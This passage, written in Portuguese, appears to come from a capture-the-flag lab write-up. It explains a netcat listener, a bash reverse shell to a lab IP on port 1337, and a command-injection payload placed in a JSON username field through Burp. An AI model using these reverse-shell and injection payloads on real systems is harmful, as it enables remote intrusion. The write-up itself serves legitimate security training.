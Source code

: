Em que:

**nc** É o comando para iniciar o Netcat, uma ferramenta de linha de comando utilizada para interações de rede. **-n** Esta opção instrui o Netcat a não fazer resolução de DNS, o que significa que ele não tentará resolver endereços IP a partir de nomes de host. Isso pode ser útil quando você quer usar diretamente endereços IP.

**-l** Essa opção indica que o Netcat deve funcionar em modo "escuta" (listen), ou seja, ele ficará aguardando por conexões em vez de tentar estabelecer uma conexão.

**-v** Essa opção ativa o modo "verboso", que exibe informações detalhadas sobre a atividade do Netcat. Isso pode ser útil para depuração e monitoramento.

**-p 1337** Esta parte especifica a porta (port) na qual o Netcat deve ouvir por conexões. Neste caso, ele está configurado para ouvir na porta 1337. Você pode substituir "1337" por qualquer número de porta desejado.

Em outro terminal virifique o ip atual da conexão com o comando `ifconfig`, no meu caso é:

```shell
10.10.14.156
```

O próximo passo envolve o envio da conexão por meio da injeção de comando. Para isso, utilizaremos o seguinte site: [revshells](https://www.revshells.com/). Preencha com as informações necessárias e obterá o seguinte resultado:

```shell
bash -i >& /dev/tcp/10.10.14.156/1337 0>&1
```

Esse comando cria uma conexão reversa, em que:

1. `bash -i`: Isso inicia uma nova instância do Bash em modo interativo. O modo interativo permite a entrada e a saída de comandos, tornando-o adequado para uma sessão de shell.

2. `>&`: Esse operador é usado para redirecionar a saída de um comando. No caso, ">&" está sendo usado para redirecionar a saída padrão (stdout) e o erro padrão (stderr) para um novo destino.

3. `/dev/tcp/10.10.14.156/1337`: Isso é onde ocorre o redirecionamento da saída. Ele redireciona a saída padrão e o erro padrão para um endereço IP e porta específicos. Nesse caso, "/dev/tcp/10.10.14.156/1337" é interpretado como a criação de uma conexão TCP para o endereço IP 10.10.14.156 na porta 1337. Portanto, os dados de saída (stdout e stderr) do shell interativo serão enviados para esse endereço e porta.

4. `0>&1`: Isso redireciona a entrada padrão (stdin) para a saída padrão (stdout). Isso é feito para que o shell interativo possa receber comandos a partir da conexão estabelecida e enviar as respostas de volta por meio da mesma conexão.

Dessa forma, no burp:

```json
{
"username":"teste; bash -c 'bash -i >& /dev/tcp/10.10.14.156/1337 0>&1' #"
}
```

estamos usando o comando `bash -c` para especificar um comando que será executado pelo Bash, que será o shellreverse. Após várias tentativas descobrimos que era necessário o uso desse comando.
